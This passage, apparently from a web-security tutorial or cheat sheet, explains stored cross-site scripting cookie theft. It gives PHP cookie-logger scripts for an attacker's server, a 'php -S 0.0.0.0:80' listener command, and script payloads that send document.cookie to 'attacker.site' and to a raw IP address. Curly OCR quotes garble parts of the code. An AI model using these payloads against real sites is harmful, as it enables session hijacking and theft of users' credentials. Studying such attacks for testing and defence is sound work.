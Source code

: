 ```php
	<?php
		$filename=”/tmp/log.txt”;
		$fp=fopen($filename, ‘a’);
		$cookie=$_GET[‘q`];
		fwrite($fp, $cookie);
		fclose($fp);
	?>
```

Open the listener in the attacker site and send the crafted URL with the payload included:

```bash
sudo php -S 0.0.0.0:80
```


Once someone open it, they will be sending to the attacker their cookies jar.


#### Example 2

1. The attacker creates a get.php file and saves it into its server. 

2. This php file will store the data that the attacker server receives into a file.

3. This could be the content of the get.php file:

```php
<?php
	$ip = $_SERVER(‘REMOTE_ADDR’);
	$browser = $_SERVER(‘HTTP_USER_AGENT’);

	$fp = fopen(‘jar.txt’, ‘a’);

fwrite($fp, $ip . ‘ ‘ . $browser . “ \n”);
fwrite($fp, urldecode($_SERVER[‘QUERY_STRING’]) . “ \n\n”);
fclose($fp);
?>
```

Initiate the php server in the attacker machine:

```bash
sudo php -S 0.0.0.0:80
```

4. Now in the web server the attacker achieve to store this payload:

```html
<script>
var i = new Image();
i.src = “http://attacker.site/get.php?cookie=”+escape(document.cookie);
</script>

# Or in one line:
<script>var i = new Image(); i.src = “http://10.86.74.7/moville.php?cookie=”+escape(document.cookie); </script>
```
